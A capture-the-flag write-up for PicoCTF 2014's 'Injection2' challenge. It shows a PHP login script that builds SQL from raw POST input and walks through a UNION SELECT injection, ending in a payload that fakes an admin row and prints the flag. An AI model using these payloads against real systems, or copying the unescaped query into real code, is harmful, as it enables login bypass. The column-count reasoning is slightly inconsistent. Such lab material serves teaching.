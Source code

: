 ###Injection2

This challenges comes from PicoCTF 2014. We are to perform an SQL injection on the web application we are provided with. The source code for the PHP file making the query is as follows:
```
<?php
include "config.php";
$con = mysqli_connect("localhost", "sql2", "sql2", "sql2");
$username = $_POST["username"];
$password = $_POST["password"];
$debug = $_POST["debug"];
$query = "SELECT * FROM users WHERE username='$username'";
$result = mysqli_query($con, $query);

if (intval($debug)) {
  echo "<pre>";
  echo "username: ", htmlspecialchars($username), "\n";
  echo "password: ", htmlspecialchars($password), "\n";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  if (mysqli_errno($con) !== 0) {
    echo "SQL error: ", htmlspecialchars(mysqli_error($con)), "\n";
  }
  echo "</pre>";
}

$logged_in = false;
if (mysqli_num_rows($result) === 1) {
  $row = mysqli_fetch_array($result);
  if ($row["password"] === $password) {
    $logged_in = true;
    echo "<h1>Logged in!</h1>";
    echo "<pre>User level: ", $row["user_level"],  "</pre>";
    if ($row["user_level"] >= 1337) {
      echo "<p>Your flag is: $FLAG</p>";
    } else {
      echo "<p>Only user levels 1337 or above can see the flag.</p>";
    }
  }
}

if (!$logged_in) {
  echo "<h1>Login failed.</h1>";
}
?>
```
From the above it is clear that to get the flag we need to bypass three conditions:

1. # of rows returned from the query === 1 (triple equal sign checks for identical value as well as datatype)
2. our "password" variable supplied via POST method must match the "password" field of the result
3. the "user_level" field must be greater or equal to 1337

Without the possiblity to register any user to the database, it becomes certain that we somehow have to "fake" the query result. Since there is no sanitization or escaping of user input,
we can achieve this by appending ```UNION SELECT``` query.

Basically, a ```UNION``` clause merges the result of multiple ```SELECT``` statements. For it to work, two conditions must be satisfied:

1. The # of columns in the SELECT statements must match (UNION is based on the # of columns in the FIRST query)
2. The data types of the corresponding columns in the SELECT statements must match (or must be convertable to match)

Note on the difference between ```UNION SELECT``` and ```UNION ALL SELECT```:

```UNION SELECT``` effectively removes duplicate results i.e. perform DISTINCT, while ```UNION ALL``` does not.

Now, there is also a convenient clause for SQL query, that is, ```AS```. Using this, we can "fake" entries in the table. On top of this, we want to nullify the orignal query, and this can be achieved doing the opposite
of what we normally do - add the condition ```AND 1=0``` which always returns false, instead of ```OR 1=1``` which always returns true.

The original query is 
```$query = "SELECT * FROM users WHERE username='$username'"```
and we can attach the following string:
```' AND 1=0 UNION SELECT 'admin' AS username, 'password' AS password, 1337 AS user_level #``` 
(```#``` can be replaced by ```-- ```. Note the a space that follows!).

With the debug mode turned on (turn on by editing the ```hidden``` input field in HTML), it gives the following error message:
```
SQL error: The used SELECT statements have a different number of columns
```
Different number of columns! The only way we can figure out is just by keep adding columns one by one till they match (just append ```,1``` for the equivalence of adding a column). So do
```
' AND 1=0 UNION SELECT 'admin' AS username, 'password' AS password, 1337 AS user_level, 1 #
```
When we have 5 columns in the second ```SELECT``` statement, it gives out no more error: however, we still don't see the flag. This means, that the data types of the corresponding columns do not match,
so try different orderings. 

In the end, put the following query into the username input field, 

```
' AND 1=0 UNION SELECT 'admin' AS username, 1, 'password' AS password, 1, 1337 AS user_level, 1 #
```
with "password" in the password input field. This prints 
```Your flag is: flag_nJZAKGWYt7YfzmTsCV```

